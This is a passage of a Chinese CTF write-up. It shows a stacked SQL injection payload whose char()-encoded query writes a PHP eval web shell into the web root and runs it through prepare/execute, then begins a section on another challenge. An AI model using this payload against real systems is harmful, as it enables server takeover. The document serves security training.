 **payload**

```sql
?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;
```

先使用 set 定义一个 用户变量 用户变量的生命周期会持续到连接中断，这就保证了我们可以在其他语句中使用这个变量的值。然后我们需要把这个值，作为 mysql 语句执行，那么就需要一个类似于 eval() 的东西。而在mysql 中，需要通过预处理语句实现。

```
prepare sql from @num;		#预定义一个语句
execute sql;				#执行这个语句
```

## [安洵杯 2019]不是文件上传

由页面最下方的

![image-20230101194635197](four.assets/image-20230101194635197.png)

上github搜索到源码（纯社工

![image-20230101194658199](four.assets/image-20230101194658199.png)
